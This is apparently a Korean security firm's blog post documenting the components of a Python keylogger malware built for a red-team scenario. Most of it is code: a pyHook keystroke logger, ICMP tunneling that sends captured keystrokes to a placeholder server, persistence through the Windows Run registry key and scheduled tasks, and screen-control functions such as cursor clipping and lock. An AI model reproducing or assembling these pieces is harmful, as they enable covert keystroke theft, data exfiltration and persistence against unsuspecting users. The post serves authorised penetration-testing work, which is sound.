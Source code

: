 ```yaml
---
layout: post
title: "Keylogger and Other Functions"
author: "Gurumi"
comments: true
tags: [programming, etc]
---
```


라온화이트햇 핵심연구팀 조운삼

## I. Intro

---

지난 프로젝트 투입 때, 수행한 시나리오에서 사용된 Keylogger 형태의 악성코드를 제작&배포 했을 때 사용한 기능들에 대해 정리해봤습니다.  추후 유사한 내용의 프로젝트 혹은 개발시 참고하면 감사하겠습니다. (개발에 사용한 언어는 Python입니다.)

## II. Functions

---

### II-01 .Keylogger

주요 기능중 하나인 Keylogger 기능은 pyHook을 이용하여 구현하였습니다. 

```python
import pyHook

hm=pyHook.HookManager()
hm.KeyDown=OnKeyboardEvent
hm.KeyUp=OnKeyboardEvent
```

보통은 `KeyDown`을 이용하여 입력 키를 파악하는 것이 일반적이지만 Shift 키를 이용한 특수문자 입력 혹은 Ctrl, Alt 키를 이용한 기타 키보드 이벤트를 구분하기 위해 `KeyDown`, `KeyUp`을 이용하여 키보드 이벤트를 구분하였습니다.

```python
def keyboardEventDebug(event):
    print('========================================\n')
    print('MessageName: {}'.format(event.MessageName))
    print('Message: {}'.format(event.Message))
    print('Time: {}'.format(event.Time))
    print('Window: {}'.format(event.Window))
    print('WindowName: {}'.format(event.WindowName))
    print('Ascii: {}'.format(event.Ascii))
    print('Key: {}'.format(event.Key))
    print('KeyID: {}'.format(event.KeyID))
    print('ScanCode: {}'.format(event.ScanCode))
    print('Extended: {}'.format(event.Extended))
    print('Injected: {}'.format(event.Injected))
    print('Alt: {}'.format(event.Alt))
    print('Transition: {}'.format(event.Transition))
    print('========================================\n')
```

pyHook에서 이벤트 발생시 이벤트 객체에 포함되어 있는 구성 요소들입니다. `event.Message`를 통해 KeyDown(256), KeyUp(257)을 구분할 수 있습니다.

`event.Ascii` 혹은 `event.KeyID`를 사용해 입력된 키를 구별할 수 있습니다.( `event.KeyID`를 사용할 경우 좀 더 다양한 키 이벤트를 구별 할 수 있지만, KeyID에 대해 사전에 파악해야 합니다.)

```python
def OnKeyboardEvent(event):
    global lst

    if event.Key=='Scroll':
        os._exit(0)

    # capture the keystrokes
    if event.KeyID !=0:
        keylogs=''
        if event.KeyID==160 and event.Message==256:
            keylogs='[L_Shift Down]'
        elif event.KeyID==160 and event.Message==257:
            keylogs='[L_Shift UP]'
        elif event.KeyID==161 and event.Message==256:
            keylogs='[R_Shift Down]'
        elif event.KeyID==161 and event.Message==257:
            keylogs='[R_Shift UP]'
        elif event.KeyID==162 and event.Message==256:
            keylogs='[L_Control Down]'
        elif event.KeyID==162 and event.Message==257:
            keylogs='[L_Control UP]'
        else:
            if event.Message == 256:
                if event.KeyID==8:
                    keylogs='[Backspace]'
                elif event.KeyID==9:
                    keylogs='[Tab]'
                elif event.KeyID==13:
                    keylogs='[Enter]'
                elif event.KeyID==20:
                    keylogs='[Caps Lock]'
                elif event.KeyID==21:
                    keylogs='[Hangul]'
                elif event.KeyID==32:
                    keylogs='[Space]'
                elif event.KeyID==127:
                    keylogs='[Delete]'
                elif event.KeyID==186:
                    keylogs=';'
                elif event.KeyID==187:
                    keylogs='+'
                elif event.KeyID==188:
                    keylogs=','
                elif event.KeyID==189:
                    keylogs='-'
                elif event.KeyID==190:
                    keylogs='.'
                elif event.KeyID==191:
                    keylogs='/'
                elif event.KeyID==192:
                    keylogs='`'
                elif event.KeyID==219:
                    keylogs='['
                elif event.KeyID==220:
                    keylogs='\\'
                elif event.KeyID==221:
                    keylogs=']'
                elif event.KeyID==222:
                    keylogs='\''
                else:
                    keylogs=event.Key
        if keylogs != '':
            lst.append(keylogs)
    
    return True
```

해당 Keylogger는 키 로그를 `lst`에 저장해 놓도록 되어 있고, 공백류 문자(Enter, Tab, Space)가 입력될 경우 로그를 전송하도록 구현되어 있으며 알파벳과 숫자를 제외한 문자들에 대해 좀 더 직관적으로 파악하기 위해 `KeyID`를 사용해 구분하고 별도의 문자열로 구분했습니다.

### II-02 ICMP Tunneling

```python
# ICMP Tunneling Client
from scapy.all import *

def sendICMP(msg):
    ip = IP(dst='Server IP')/ICMP()/msg.encode('base64').strip()
    send(ip)

# ICMP Tunneling Server
def sniffICMP():
    while True:
				rx = sniff(filter="icmp", count=1)
        return rx[0][Raw].load.decode('base64')
```

로그를 전송하는 부분에서 `scapy`모듈을 사용하여 ICMP Tunneling Server, Client를 구현하였습니다.

base64로 인코딩하여 전송하는 것은 시나리오 수행상 필요한 부분이므로 제거해도 무관합니다.

### II-03 ClipCursor

[ClipCursor function (winuser.h) - Win32 apps](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-clipcursor)

```python
import win32api

def moveCursor():
	win32api.ClipCursor((upper-left x-coordinate, upper-left y-coordinate, lower-right x-coordinate, lower-right y-coordinate))
```

해당 기능은 Windows에서 클라이언트의 마우스 커서의 행동 영역을 제한하는 기능입니다. `ClipCursor`의 인자로 빈 값이나 (0,0,0,0)을 넣을 경우 행동 영역 제한이 해제됩니다.

### II-04 Schedule

[schtasks](https://docs.microsoft.com/ko-kr/windows-server/administration/windows-commands/schtasks)

![/assets/sam0700.png](/assets/sam0700.png)

```bash
2020/07/03 14:30에 "Task Command"를 한 번 실행시키는 작업을 "Task Name"이라는 이름으로 작업 스케줄 등록
ex) SCHTASKS /create /sc ONCE /SD 2020/07/03 /ST 14:30 /TN "Task Name" /TR "Task Command"

/create 작업 스케줄 생성
/delete 작업 스케줄 삭제
ex) SCHTASKS /delete /Tn "My Task"
/run 등록된 작업 스케줄 (원격/로컬)실행
ex) SCHTASKS /run /Tn "My Task"
/end 작업 스케줄에 의해 실행된 프로그램 (원격/로컬)중지

/sc MINUTE|HOURLY|DAILY|WEEKLY|MONTHLY 매분|시간|일|주|달 마다 실행
/sc ONCE 지정된 날짜 및 시간에 한 번 실행
/sc ONSTART 시스템 시작시 실행
```

Windows에서 제공하는 작업 스케줄러 등록하는 기능입니다. 시나리오 수행에 특정 날짜와 시간대에 동작하도록 하는 기능이 요구되어 구현했습니다.

***시작 프로그램**

```python
from _winreg import *

keyVal = r'Software\Microsoft\Windows\CurrentVersion\Run'
key2change = OpenKey(HKEY_CURRENT_USER, keyVal, 0, KEY_ALL_ACCESS)
SetValueEx(key2change, 'MY Execution', 0, REG_SZ, path)
```

작업 스케줄러에 작업 등록과 별개로 "시작 프로그램"에 프로그램 실행을 등록시킬 경우 레지스트리에 등록하면 됩니다.

### II-04 ETC

**Screen Lock**

```bash
# 사용자의 화면을 잠금화면으로 전환
rundll32.exe user32.dll, LockWorkStation
```

O**pen Image**

```bash
#전체화면으로 open
start "" /max "imagePath"
```

**Change Wallpaper**

```python
# 지정된 경로의 이미지로 시스템 배경화면 변경
import ctypes
SPI_SETDESKWALLPAPER = 20 
ctypes.windll.user32.SystemParametersInfoA(SPI_SETDESKWALLPAPER, 0, image_Path , 0)
```

3개 기능 모두 Windows 화면제어에 관한 기능을 수행합니다.